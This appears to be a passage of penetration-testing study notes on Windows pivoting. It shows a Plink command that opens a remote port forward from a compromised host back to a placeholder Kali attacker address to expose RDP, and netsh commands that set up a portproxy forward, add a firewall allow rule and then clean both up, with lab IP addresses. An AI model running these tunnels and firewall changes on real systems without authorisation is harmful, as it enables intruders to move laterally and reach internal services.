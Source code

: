 ### Plink

_Plink_ is the command-line-only counterpart to _PuTTY_. Plink does **not** have the ability to setup remote dynamic port forwarding.

If we have Plink, we **can** setup a remote port forward.

{% code overflow="wrap" lineNumbers="true" %}
```batch
C:\Windows\System32\inetsrv> C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 your.kali.ip.here
```
{% endcode %}

### Netsh

Using netsh, we can setup a port forward with the _portproxy subcontext_ with the _interface_ context. Netsh requires administrative privileges to created a port forward on Windows.

{% code overflow="wrap" lineNumbers="true" %}
```batch
: Setting up the portproxy rule (v4tov4)
C:\Windows\System32> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

: Confirm the port is listening
C:\Windows\system32>netstat -anp TCP | find "2222"
  TCP    192.168.50.64:2222     0.0.0.0:0              LISTENING
  
: Confirm the port forward is stored
C:\Windows\system32> netsh interface portproxy show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.50.64   2222        10.4.50.215     22

: We still need port 2222 to be allowed through the firewall though.
C:\Windows\system32> netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
Ok.

: Cleaning up by deleting the rule made now that we're done.
C:\Users\Administrator>netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

Deleted 1 rule(s).
Ok.

: Cleaning up by deleting the port forward we created.
C:\Windows\Administrator> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
{% endcode %}
